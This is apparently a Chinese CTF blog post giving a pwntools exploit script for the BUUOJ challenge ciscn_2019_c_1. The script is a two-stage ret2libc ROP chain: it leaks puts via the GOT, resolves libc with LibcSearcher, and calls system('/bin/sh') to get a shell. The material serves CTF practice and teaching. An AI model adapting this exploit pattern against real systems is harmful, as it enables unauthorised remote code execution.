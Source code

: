 ```yaml
---
title: ROP
tags: [ctf-pwn,stack]
date: 2022-11-16 19:07:00
categories: [ctf-pwn]
excerpt: exp
---
```


### 题目1

<https://buuoj.cn/challenges#ciscn_2019_c_1>

**Exp**

```python
from pwn import *
from LibcSearcher import *
p = process('./ciscn_2019_c_1')
# p = remote('node4.buuoj.cn',29563) 
elf = ELF('./ciscn_2019_c_1')

ret=0x4006b9
rdi=0x400c83
main=elf.sym['main']
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']

#第一次攻击绕过函数
p.sendlineafter(b'Input your choice!\n',b'1')
payload=b'\0'+b'a'*(0x50-1+8)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendlineafter(b'Input your Plaintext to be encrypted\n',payload)
 
 
 
p.recvline()	#接收字符串Ciphertext
p.recvline()    #加密后的密文
#这里注意需要接收2次
 
puts_addr=u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0'))  #得到 puts 函数 的地址

print(hex(puts_addr))

libc=LibcSearcher('puts',puts_addr) #获取libc的版本
offset=puts_addr-libc.dump('puts') #计算偏移量
binsh=offset+libc.dump('str_bin_sh') #计算字符串"/bin/sh"的地址
system=offset+libc.dump('system') #计算函数system的地址
 
#第二次攻击getshell
 
p.sendlineafter(b'Input your choice!\n',b'1')     #   再一次执行 一遍流程
payload=b'\0'+b'a'*(0x50-1+8)+p64(ret)+p64(rdi)+p64(binsh)+p64(system)
p.sendlineafter(b'Input your Plaintext to be encrypted\n',payload)
p.interactive()



# ubuntu18版本以上调用64位程序中的system函数的栈对齐问题
# https://www.cnblogs.com/ZIKH26/articles/15996874.html
```
